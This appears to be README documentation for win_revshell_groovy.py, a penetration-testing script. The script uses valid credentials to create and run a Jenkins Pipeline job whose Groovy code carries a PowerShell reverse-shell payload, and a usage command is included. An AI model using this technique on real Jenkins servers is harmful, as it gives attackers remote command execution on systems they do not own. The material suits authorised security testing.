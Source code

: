 ## [win_revshell_groovy.py]
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Windows.\
And Jenkins must have the "[workflow-cps](https://plugins.jenkins.io/workflow-cps/)" or "Pipeline: Groovy" plugin installed.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new **"Pipeline"** JOB.

![win_revshell_groovy_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_groovy.py/images/win_revshell_groovy_1.png)

Then configures it or BUILD a **"Pipeline script"** with the **Powershell** payload as **Groovy** code.
![win_revshell_groovy_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_groovy.py/images/win_revshell_groovy_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:
python3 ./win_revshell_groovy.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![win_revshell_groovy_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_groovy.py/images/win_revshell_groovy_3.png)
![win_revshell_groovy_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_groovy.py/images/win_revshell_groovy_4.png)

Tested on Jenkins 2.150.2 and Windows 10 Pro 22H2 b.19045
